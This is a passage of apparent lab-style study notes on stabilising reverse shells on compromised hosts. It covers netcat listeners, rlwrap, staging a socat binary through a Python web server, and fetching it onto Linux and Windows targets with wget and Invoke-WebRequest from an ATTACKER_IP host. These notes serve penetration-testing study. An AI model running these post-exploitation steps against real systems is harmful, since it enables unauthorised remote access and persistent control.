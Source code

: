 sudo nc -lvnp 443

* Turns off terminal echo and gives access to tab autocompletes, the arrow keys, and Ctrl+C to kill processes.
* Foreground the shell to complete process.
* If the shell dies any input in the terminal will not be visible as a result of having disabled terminal echo.
  * Type reset and press enter to fix this.

^C

ssh shell@localhost

The authenticity of host 'localhost (::1)' can't be established.

\[snip ...]

**Technique 2: rlwrap**

* Gives access to history, tab autocompletion and the arrow keys immediately upon receiving a shell.
* Manual stabilisation is required to be able to use Ctrl+C inside the shell.
* rlwrap is not installed by default on Kali.
  * Install it with sudo apt install rlwrap.
* Invoke slightly different listener.

rlwrap nc -lvnp \<port>

* Prepending netcat listener with rlwrap gives much more fully featured shell.
* Particularly useful when stabilising Windows shells.
* Possible to completely stabilise a Linix shell using the same trick as in step three of previous technique.
  * Background shell with Ctrl+Z.
  * stty raw -echo; fg to stabilise and re-enter the shell.

**Technique 3: Socat**

* Use initial netcat shell as stepping stone into more fully-featured socat shell.
* Limited to Linux targets.
  * Socat shell on Windows will be no more stable than a netcat shell.
* Transfer[ socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to target host.
  * Use webserver on the attack host inside the directory containing the socat binary.

sudo python3 -m http.server 80

* Use netcat shell to download file on target host.

wget \<LOCAL-IP>/socat -O /tmp/socat).

* In a Windows environment the same can be done with Powershell.

Invoke-WebRequest -uri ATTACKER\_IP/socat.exe -outfile C:\\\Windows\temp\socat.exe)

* Useful to be able to change terminal tty size.
  * Must be done manually in reverse or bind shell.
  * Open another terminal and run stty -a.
    * Note down values for rows and columns.
  * stty rows \<number> and stty cols \<number> in reverse/bind shell.
    * Changes registered width and height of terminal.
    * Allows programs such as text editors that rely on such information being accurate to correctly open.
